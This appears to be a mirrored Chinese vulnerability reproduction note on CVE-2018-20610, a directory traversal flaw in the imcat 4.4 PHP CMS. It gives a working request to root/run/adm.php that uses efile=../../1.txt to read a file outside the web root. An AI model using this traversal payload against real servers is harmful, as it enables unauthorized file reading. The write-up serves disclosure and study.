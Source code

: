 # （CVE-2018-20610）Imcat 4.4 敏感信息泄露

> 原文：[http://book.iwonder.run/0day/Imcat/CVE-2018-20610.html](http://book.iwonder.run/0day/Imcat/CVE-2018-20610.html)

## 一、漏洞简介

imcat 是一套基于 PHP 的开源建站系统。 imcat 4.4 版本中的 root/run/adm.php 文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注 CNNVD 或厂商公告。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

先在 D 盘创建 1.txt

![](img/74414e55ef5fbc6ec972f259698c9836.png)

```
http://www.0-sec.org/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn 
```

![](img/e51972ba0908107bd28d595a62156cd9.png)

## 参考链接

> [https://github.com/AvaterXXX/CVEs/blob/master/imcat.md](https://github.com/AvaterXXX/CVEs/blob/master/imcat.md)

